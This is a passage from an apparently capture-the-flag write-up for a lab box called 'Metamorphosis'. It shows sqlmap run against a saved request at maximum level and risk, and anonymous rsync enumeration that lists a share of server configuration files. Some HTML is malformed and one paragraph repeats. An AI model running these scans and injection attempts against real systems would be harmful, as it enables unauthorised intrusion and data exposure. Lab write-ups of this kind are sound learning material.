 <p align="left">Right-clicked Request > clicked <code>Save item</code> > entered a file name > clicked <code>Save</code>. Created <code>request.txt</code>.</p>

<p align="left">Right-clicked Request > clicked <code>Save item</code> > entered a file name > clicked <code>Save</code>. Created <code>request.txt</code>.</p>

< align="enter"><Executed <code>sqlmap</code>.</p>

:~/Metamorphosis# sqlmap -r request.txt --level 5 --risk 3






<h3>873/tcp open  rsync</h3>


```bash
:~/Metamorphosis# rsync --list-only rsync://xx.xxx.xxx.xx
Conf           	All Confs
```

```bash
:~/Metamorphosis# rsync --list-only rsync://xx.xxx.xxx.xx/Conf
drwxrwxrwx          4,096 2021/04/10 21:03:08 .
-rw-r--r--          4,620 2021/04/09 21:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 20:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 21:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 21:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 21:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 20:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 20:56:56 php.ini
-rw-r--r--            320 2021/04/09 21:03:16 ports.conf
-rw-r--r--            589 2021/04/09 21:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 21:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 21:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 21:03:06 webapp.ini
```

```bash
:~/Metamorphosis# rsync -av --list-only rsync://10.201.34.170/Conf
receiving incremental file list
drwxrwxrwx          4,096 2021/04/10 21:03:08 .
-rw-r--r--          4,620 2021/04/09 21:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 20:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 21:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 21:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 21:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 20:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 20:56:56 php.ini
-rw-r--r--            320 2021/04/09 21:03:16 ports.conf
-rw-r--r--            589 2021/04/09 21:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 21:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 21:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 21:03:06 webapp.ini

sent 20 bytes  received 379 bytes  798.00 bytes/sec
total size is 193,430  speedup is 484.79
```
